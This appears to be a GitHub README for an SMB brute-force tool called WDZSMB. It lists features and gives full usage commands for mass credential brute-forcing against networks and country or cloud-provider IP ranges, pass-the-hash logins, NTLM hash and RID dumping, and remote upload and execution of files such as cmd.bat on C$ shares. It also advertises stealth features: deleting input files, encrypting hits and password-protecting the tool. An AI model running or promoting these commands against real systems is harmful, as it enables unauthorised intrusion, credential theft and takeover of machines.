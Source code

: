<h1 align="center">WDZSMB</h1>

## Description
 - WDZSMB Is A LightWeight, Memory-Efficient & Ultra Fast Performing Cli SMB (Server Message Block) Bruteforce App.
 - Upload/Download File To/From Remote Server Providing Local & Remote File Paths &Or Execute Uploaded File Using '-cmd'.
 - Execute Command On Remote Server Silently.
 - Save Ntlm Hashes From Server Locally In 'hashes.txt' If Cred Used Have Access.
 - Save Rid Brute Results From Server Locally In 'rid_info.txt' If Found.
 - Scan Using Password Or Ntlm Hash (32 characters)
 - Scan An Entire Network (e.g 1.1.1.0/24)
 - Check If Credential(s) Are valid (e.g "server:port@domain\\username;password")
 - Scan Using "user;password" | "user;ntlm_hash" combo(s) (e.g "admin;admin123", "dev;ab2d4912fc7132fb7165d79cffbc5db5")
 - Password Generator (e.g all perms, all upper & lower, all no repeat chars)
 - Grab Network Cidr Lists For All Datacenters Or Countries(2 letter cc) (e.g all | microsoft | us)
 - No Viruses, Can Be Run Using Guest Or Admin Account On Any Windows OS
 - Encrypt/Decrypt Hits With A Password (Can Only Be Decrypted With This Program)
 - Clean/Delete All Input Files (Total Stealth)
 - Password Protected Program So Even If Found Can't Be Used Without Password
 - All In 1 Lightweight Memory Efficient Application At 17.7 Mb You Can't Find That Anywhere.
 - Made By A Pentester For Pentesting &Or Network Administrator Purposes
 - Hit Me Up & Let Me Know, Serious Inquiries Only

## Prerequisites
 - Can Be Distributed As An Executable For Windows/Linux Or As A Package To Install With Python On The System.

### Datacenters
```
all
akamai
alibaba
amazon
aws_cloudfront
aws_ec2
aws_s3
bigo
bing
cloudflare
digitalocean
facebook
fastly
github
google
google_cloud
linode
microsoft
netflix
openai
oracle
telegram
twitter
zenlayer
zoom
```

### Usage
Scan Servers In 's.txt' For Valid User 'admin' & Password 'admin@123' Using 1000 threads
```
smb.exe -s s.txt -u admin -p admin@123 -t 1000
```
Scan Servers In 's.txt' For Valid User 'admin' & NTLM_Hash '0bae622ab68138248c66d66882818dfd'
```
smb.exe -s s.txt -u u.txt -hs 0bae622ab68138248c66d66882818dfd
```
Scan Servers In 's.txt' For Valid 'User;Password' Combos In 'combo.txt' & Type Password To Encrypt Valid Creds.
```
smb.exe -s s.txt -up combo.txt -e
```
Scan Servers In Network 1.1.1.0/24 For Valid User 'user1' & Generated Password(s), Save Passwords To 'pwd.txt'
```
smb.exe -nw 1.1.1.0/24 -u user1 -ps user -pt nrc -pe @123 -po pwd.txt
```
Save All CIDR Networks For USA In us.txt
```
smb.exe -nc US -no us.txt
```
Scan Servers In 's.txt' For Users In 'u.txt' & Passwords In 'p.txt' & Stealthily Delete All 3 Input Files.
```
smb.exe -s s.txt -u u.txt -p p.txt -clean
```
Execute Command 'net user defaultaccount /active:no' On Valid Cred Servers In 'c.txt' Using 'wmi' Execution Policy.
```
smb.exe -c c.txt -cmd 'net user defaultaccount /active:no' -exp wmi
```
Upload 'cmd.bat' Local File To Valid Cred Servers C$ Share In 'c.txt' As 'Users\cmd.bat' Remote File & Execute It.
```
smb.exe -c c.txt -lf cmd.bat -rf Users\cmd.bat -tr -share C$ -cmd c:\Users\cmd.bat
```
Download 'c:\Users\a.txt' Remote File As 'b.txt' Local File From Valid Cred Servers 'C$' Share In 'c.txt'.
```
smb.exe -c c.txt -lf b.txt -rf Users\a.txt -dn -share C$
```
Save Ntlm Hashes From Valid Cred Servers In 'c.txt' In 'hashes.txt' File If Cred/User Account Used Has Access.
```
smb.exe -c c.txt -ntlm
```
Scan Network 1.1.1.0/24 Using 'admin;password' Combo & Save Found Rid Brute Results In 'rid_info.txt' & Ntlm Hashes In 'hashes.txt'.
```
smb.exe -nw 1.1.1.0/24 -up admin;password -rid -ntlm
```

## Illustration Video:
https://mega.nz/file/MekGTKYQ#AZGxgi1k0A0kmp8z1MpBlm0Z-oQ2mjdUEyGH1ctg0oI

## Contact Info:
 - Email:     wuddz_devs@protonmail.com
 - Github:    https://github.com/wuddz-devs
 - Telegram:  https://t.me/wuddz_devs
 - Youtube:   https://youtube.com/@wuddz-devs
 - Reddit:    https://reddit.com/user/wuddz-devs

### Buy Me A Coffee!!
![Alt Text](https://raw.githubusercontent.com/wuddz-devs/wuddz-devs/main/assets/eth.png)
 - ERC20:    0xbF4d5309Bc633d95B6a8fe60E6AF490F11ed2Dd1

![Alt Text](https://raw.githubusercontent.com/wuddz-devs/wuddz-devs/main/assets/btc.png)
 - BTC:      bc1qa7ssx0e4l6lytqawrnceu6hf5990x4r2uwuead

![Alt Text](https://raw.githubusercontent.com/wuddz-devs/wuddz-devs/main/assets/ltc.png)
 - LTC:      LdbcFiQVUMTfc9eJdc5Gw2nZgyo6WjKCj7

![Alt Text](https://raw.githubusercontent.com/wuddz-devs/wuddz-devs/main/assets/doge.png)
 - DOGE:     DFwLwtcam7n2JreSpq1r2rtkA48Vos5Hgm

![Alt Text](https://raw.githubusercontent.com/wuddz-devs/wuddz-devs/main/assets/tron.png)
 - TRON:     TY6e3dWGpqyn2wUgnA5q63c88PJzfDmQAD

#### Enjoy my awesome creativity!!
#### Peace & Love Always!!

